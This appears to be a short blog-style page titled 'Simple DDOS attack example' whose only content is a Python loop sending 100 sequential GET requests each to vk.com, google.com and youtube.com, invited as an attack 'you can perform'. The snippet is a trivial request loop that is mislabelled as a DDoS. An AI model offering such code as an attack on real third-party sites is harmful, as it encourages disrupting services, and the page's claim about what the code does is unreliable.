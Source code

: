 ```yaml
---
title: "Simple DDOS attack example"
date: 2020-04-26
---
```


# Simple DDOS attack example

Let me show you simple ddos attack that you can perform

DDOS attack code block in python:
```python
    import requests

    sites = ['https://vk.com', 'https://google.com', 'https://youtube.com']
    for site in sites:
        for i in range(100):
            r = requests.get(site)
            print(site, i, r.status_code)
```
